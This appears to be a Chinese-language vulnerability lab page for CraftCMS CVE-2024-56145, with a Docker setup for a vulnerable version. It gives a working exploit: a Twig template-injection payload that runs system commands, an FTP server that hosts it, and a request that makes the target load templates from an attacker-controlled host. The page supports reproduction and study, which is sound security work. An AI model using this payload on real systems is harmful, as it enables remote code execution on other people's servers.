

CraftCMS register_argc_argv 导致远程代码执行漏洞（CVE-2024-56145）¶
CraftCMS 是一个基于 PHP 的内容管理系统，用于构建网站和应用程序。
CraftCMS 5.5.2 和 4.13.2 之前的版本存在潜在的远程代码执行漏洞。当 PHP 环境启用 register_argc_argv 时，CraftCMS 会错误地从 HTTP 请求中读取配置项，攻击者可以使用 --templatesPath 控制模板文件，并利用模板注入导致任意代码执行。
参考链接：
- https://github.com/craftcms/cms/security/advisories/GHSA-2p6p-9rc9-62j9
- https://www.assetnote.io/resources/research/how-an-obscure-php-footgun-led-to-rce-in-craft-cms
漏洞环境¶
执行以下命令启动一个 CraftCMS 5.5.1.1 服务器：
docker-compose up -d
服务器启动后，你可以在 http://<your-ip>:8088/admin/install 看到安装页面。请按照说明安装 CraftCMS，默认数据库地址为 db，用户名和密码均为 root。

漏洞复现¶
要复现该漏洞，你需要准备一个包含以下内容的 index.twig 文件并放置在任意远程服务器上：
{{ ['system', 'id'] | sort('call_user_func') | join('') }}
然后在 index.twig 文件所在的服务器中启动一个 FTP 服务器：
# 安装 pyftpdlib
pip install pyftpdlib
# 启动 FTP 服务器
python -m pyftpdlib -p 21212 -V
然后你可以通过发送以下请求来利用该漏洞：
http://<your-ip>:8088/?--templatesPath=ftp://<evil-ip>:21212/

如你所见，id 命令被成功执行并返回了结果。